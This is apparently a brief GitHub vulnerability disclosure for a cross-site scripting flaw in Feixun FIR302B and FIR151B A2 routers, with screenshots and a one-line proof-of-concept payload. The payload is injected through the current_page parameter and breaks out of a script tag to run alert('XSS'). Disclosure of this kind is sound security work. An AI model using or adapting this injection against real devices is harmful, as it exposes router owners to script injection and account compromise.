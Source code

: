 # feixun-xss

## Affected models: FIR302B, FIR151B A2


### FIR302B   
![image](https://user-images.githubusercontent.com/72059221/180923899-f89ee4d9-1d67-4519-ae64-7862de8e4f12.png)   



### FIR151B A2  
![image](https://user-images.githubusercontent.com/72059221/180923638-4318f198-6953-415a-a5c2-c9674d2b4392.png) 



## Payload

```
current_page=</script><script>alert("XSS")</script>;//
```
